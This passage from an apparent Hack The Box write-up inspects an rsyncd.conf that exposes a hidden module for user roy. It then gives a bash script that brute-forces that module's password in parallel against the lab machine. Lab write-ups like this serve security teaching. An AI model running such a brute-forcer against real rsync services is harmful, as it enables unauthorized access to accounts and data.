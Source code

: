 OK. We have only one user, `roy`. With that in mind, let's check out `rsyncd.conf` to see what other goodies we can find.

```
# Syncable home directory for .dot file sync for me.
# NOTE: Need to get this into GitHub repository and use git for sync.
[home_roy]
        path = /home/roy
        read only = no
        # Authenticate user for security reasons.
        uid = roy
        gid = roy
        auth users = roy
        secrets file = /etc/rsyncd.secrets
        # Hide home module so that no one tries to access it.
        list = false
```

Bam. Another hidden `rsync` module. Looks like authentication is required. Towards that end, I wrote a simple `bash` script, using `rsync` as the main driver to brute-force the password. Combined the script with GNU Parallel, you get a multi-threaded brute-forcer of sorts. :wink:

<div class="filename"><span>brute.sh</span></div>

```bash
#!/bin/bash

HOST="dead:beef::250:56ff:feb9:a4c5"
PORT=8730
USER=roy
MOD="home_roy"
PASS=$1
TEMP=$(mktemp -u)

echo -n "$PASS" > $TEMP; chmod 600 $TEMP

function die() {
  killall perl &>/dev/null
}

if rsync -6 --password-file=$TEMP rsync://$USER@[$HOST]:$PORT/$MOD &>/dev/null; then
  echo "[*] Password: $PASS"
  echo "$PASS" > pwd; chmod 600 pwd
  die
fi

# clean up
rm -rf $TEMP
```

Let's give it a shot.


{% include image.html image_alt="0808d74f.png" image_src="/a2612680-aa5d-4086-b8ce-a46808e10511/0808d74f.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/204
[2]: https://www.hackthebox.eu/home/users/profile/77141
[3]: https://www.hackthebox.eu/